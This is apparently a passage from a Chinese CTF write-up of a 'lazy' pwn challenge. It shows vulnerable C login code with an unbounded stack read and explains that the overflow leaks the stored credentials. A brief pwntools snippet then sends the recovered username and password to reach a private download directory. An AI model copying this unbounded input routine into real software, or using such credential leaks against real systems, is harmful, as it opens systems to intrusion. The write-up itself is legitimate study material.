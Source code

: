 ```c
        printf("Welcome, %s\n",input_username);

        printf("password : ");
        input(input_password);


        if(strncmp(username,input_username,strlen(USERNAME)) != 0){
                puts("Invalid username");
                return 0;
        }

        if(strncmp(password,input_password,strlen(PASSWORD)) != 0){
                puts("Invalid password");
                return 0;
        }

        return 1;
}


void input(char *buf){
        int recv;
        int i = 0;
        while(1){
                recv = (int)read(STDIN_FILENO,&buf[i],1);
                if(recv == -1){
                        puts("ERROR!");
                        exit(-1);
                }
                if(buf[i] == '\n'){
                        return;
                }
                i++;
        }
}

```

登陆处存在溢出，用户名和密码在栈上，可以打出来，看diary也可以发现用户名为\_H4CK3R\_

```python
r.sendline('2')
r.sendline('_H4CK3R_')
r.sendline('3XPL01717')
```

成功登陆

```
password : Logged in!
1: Public contents
2: Login
3: Exit
4: Manage
$ 4
Welcome to private directory
You can download contents in this directory, but you can't download contents with a dot in the name
lazy
libc.so.6
Input file name
$  
```
